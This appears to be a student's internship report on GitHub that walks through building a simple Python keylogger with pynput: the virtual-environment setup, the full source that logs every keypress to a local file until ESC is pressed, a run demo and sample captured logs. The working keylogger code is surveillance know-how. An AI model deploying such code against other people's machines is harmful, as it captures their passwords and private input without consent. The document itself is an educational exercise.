


# Task 8: Keylogger Creation for Educational Use
## Internship at : Broskieshub.com

## Objective

I’m building a simple keylogger in Python using the `pynput` library to demonstrate how attackers might capture keystrokes for educational purposes only. This helps me understand input monitoring techniques and highlights the importance of security practices.

## Dependencies

- Python 3.13.7
- I install `pynput` in a virtual environment to avoid Kali Linux’s externally managed environment error.

### Setup Virtual Environment

1. I install `python3-venv`:
    
    ```
    sudo apt install python3-venv
    ```
    
2. I create and activate a virtual environment:
    
    ```
    python3 -m venv keylogger_env
    source keylogger_env/bin/activate
    ```
    
3. I install `pynput` inside the virtual environment:
    
    ```
    pip install pynput
    ```
    

**Screenshot Points (SS):**

- After I create and activate the virtual environment (showing terminal output).



- After I install `pynput` (showing pip output).


## Source Code

I save the following as `keylogger.py`:

```python
from pynput.keyboard import Key, Listener
import logging

# Set up logging to file
logging.basicConfig(filename='keylog.txt', level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

def on_release(key):
    if key == Key.esc:  # Stop listener on ESC key
        return False

# Start listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage Demo

1. I ensure the virtual environment is activated:
    
    ```
    source ~/Desktop/Task8/keylogger_env/bin/activate
    ```
    
2. I run the script:
    
    ```
    python keylogger.py
    ```
    
3. I type sample input.
4. I press ESC to stop.
5. I view the logs in `keylog.txt`.

**Screenshot Points (SS):**

- Terminal showing execution and typing in progress.



## Captured Logs 
`These also can be found at [Logs](Evidences/keylog.txt)`

```
2025-09-28 15:53:20,828: Key.shift_r  
2025-09-28 15:53:21,350: 'H'  
2025-09-28 15:53:21,623: 'e'  
2025-09-28 15:53:21,901: 'l'  
2025-09-28 15:53:22,154: 'l'  
2025-09-28 15:53:22,386: 'o'  
2025-09-28 15:53:22,710: Key.space  
2025-09-28 15:53:24,271: Key.shift_r  
2025-09-28 15:53:24,581: 'C'  
2025-09-28 15:53:24,939: 'a'  
2025-09-28 15:53:25,157: 'n'  
2025-09-28 15:53:25,460: Key.space  
2025-09-28 15:53:26,143: 'y'  
2025-09-28 15:53:26,421: 'o'  
2025-09-28 15:53:26,704: 'u'  
2025-09-28 15:53:27,078: Key.space  
2025-09-28 15:53:27,402: 's'  
2025-09-28 15:53:28,579: 'e'  
2025-09-28 15:53:28,809: 'e'  
2025-09-28 15:53:29,297: Key.space  
2025-09-28 15:53:30,782: 'm'  
2025-09-28 15:53:31,019: 'e'  
2025-09-28 15:53:31,313: Key.shift_r  
2025-09-28 15:53:31,693: '?'  
2025-09-28 15:53:32,290: Key.space  
2025-09-28 15:53:32,437: Key.shift_r  
2025-09-28 15:53:35,218: ':'  
2025-09-28 15:53:35,948: ')'  
2025-09-28 15:53:38,105: Key.esc
```

## Notes

- I use this ethically for the demo and deactivated the virtual environment after use:
    
    ```
    deactivate
    ```
    
- This is for learning—I do not deploy it on unauthorized systems.

---
End of report.